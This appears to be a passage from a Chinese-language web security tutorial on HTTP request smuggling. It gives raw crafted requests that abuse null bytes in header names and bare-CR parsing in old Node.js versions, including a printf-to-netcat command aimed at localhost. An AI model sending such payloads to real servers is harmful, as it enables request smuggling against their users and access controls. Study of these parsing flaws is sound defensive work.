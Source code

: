 ### Null In Headers

在一些用 C 写的中间件服务器当中比较容易产生这个问题，因为`\0`代表字符串结束标志，当用在 header 里面，如果我们用`\0`就可能让中间件出现一些不正常的解析。

比如说：

```plain
# 2 responses instead of 3 (2nd query is wipped out by pound, used as a body)
printf 'GET / HTTP/1.1\r\n'\
'Host:localhost\r\n'\
'Content-\0dummy: foo\r\n'\
'length: 56\r\n'\
'Transfer-Encoding: chunked\r\n'\
'Dummy:Header\r\n'\
'\r\n'\
'0\r\n'\
'\r\n'\
'GET /tmp HTTP/1.1\r\n'\
'Host:localhost\r\n'\
'Dummy:Header\r\n'\
'\r\n'\
'GET /tests HTTP/1.1\r\n'\
'Host:localhost\r\n'\
'Dummy:Header\r\n'\
'\r\n'\
| nc -q3 127.0.0.1 8080
```

有些中间件处理以上的请求时，当遇到`\0`的时候会继续换行读取，这样也会导致产生解析差异。

### CRLF

根据 [RFC7320 section-3.5](https://tools.ietf.org/html/rfc7230#section-3.5):

> Although the line terminator for the start-line and header fields is the sequence CRLF, a recipient MAY recognize a single LF as a line terminator and ignore any preceding CR.

也就是说除了 CRLF 我们还可以用 LF 作为 EOL，但是在 Node.js < 5.6.0 的版本，对于 CRLF 的处理也是比较有趣的：

```plain
[CR] + ? == [CR][LF]        //true
```

假设我们有一个正常解析 CRLF 的 Front 服务器，后端是有该漏洞的 Node.js 服务，我们可以发送以下请求：

```plain
GET / HTTP/1.1\r\n
Host:localhost\r\n
Dummy: Header\rZTransfer-Encoding: chunked\r\n
Content-length: 52\r\n
\r\n
0\r\n
\r\n
GET /tmp HTTP/1.1\r\n
Host:localhost\r\n
Dummy:Header\r\n
```
